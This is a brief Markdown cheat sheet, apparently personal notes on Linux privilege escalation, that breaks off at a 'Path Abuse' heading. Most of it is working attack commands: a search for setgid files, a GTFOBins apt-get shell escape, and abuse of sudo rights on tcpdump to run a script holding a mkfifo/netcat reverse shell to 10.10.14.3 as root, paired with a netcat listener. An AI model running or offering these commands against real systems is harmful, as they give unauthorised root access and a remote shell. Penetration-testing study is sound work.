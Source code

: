 #### The Set-Group-ID (setgid) permission
```Shell
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
Allows us to run binaries as if we were part of the group that created them

### [GTFOBins](https://gtfobins.github.io/)

#### e.g., `apt-get` can be used to break out of restricted environments and spawn a shell by adding a Pre-Invoke command
```Shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```


## Sudo Rights Abuse

#### Check to see if the current user has any sudo privileges
```Shell
sudo -l
```

#### Example: if the sudoers file is edited to grant a user the right to run a command such as `tcpdump`
```Shell
man tcpdump
```

#### An attacker could create the shell script `.test` containing a reverse shell
```Shell
cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

#### Start a netcat listener on our attacking box run tcpdump as root with the postrotate-command
```Shell
nc -lnvp 443
```

#### Using `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands
```Shell
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
Leveraged by specifying the `-z` flag


## Path Abuse
